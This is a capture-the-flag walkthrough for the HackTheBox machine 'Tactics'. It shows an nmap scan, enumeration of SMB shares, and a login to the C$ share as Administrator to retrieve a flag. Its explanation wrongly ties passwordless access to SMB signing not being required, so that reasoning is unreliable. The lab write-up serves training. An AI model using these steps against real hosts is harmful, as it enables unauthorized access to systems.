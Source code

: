 ```yaml
---
title: Tactics - A HackTheBox machine
author: amandaguglieri
TableOfContents: true
draft: false
tags:
  - walkthrough
  - windows
  - smb
  - port 445
---
```


# Tactics - A HackTheBox machine


```bash
nmap -sC -A 10.129.228.98  -Pn -p-
```

Results:

```
PORT    STATE SERVICE       VERSION
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -5s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 7476/tcp): CLEAN (Timeout)
|   Check 2 (port 63095/tcp): CLEAN (Timeout)
|   Check 3 (port 16465/udp): CLEAN (Timeout)
|   Check 4 (port 43695/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-05-02T10:26:04
|_  start_date: N/A

```

Interesting part here is 

```
smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

```

This will allow us to use smbclient share enumeration withouth the need of providing a password when signing into the shared folder. For that we will use a well known user in Windows: Administrator.

```bash
smbclient -L 10.129.228.98 -U Administrator
```

Results:

```
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC

```

```bash
smbclient \\\\10.129.228.98\\C$ -U Administrator
```


Flag is located at: 

```
\Users\Administrator\Desktop\>flag.txt 
```

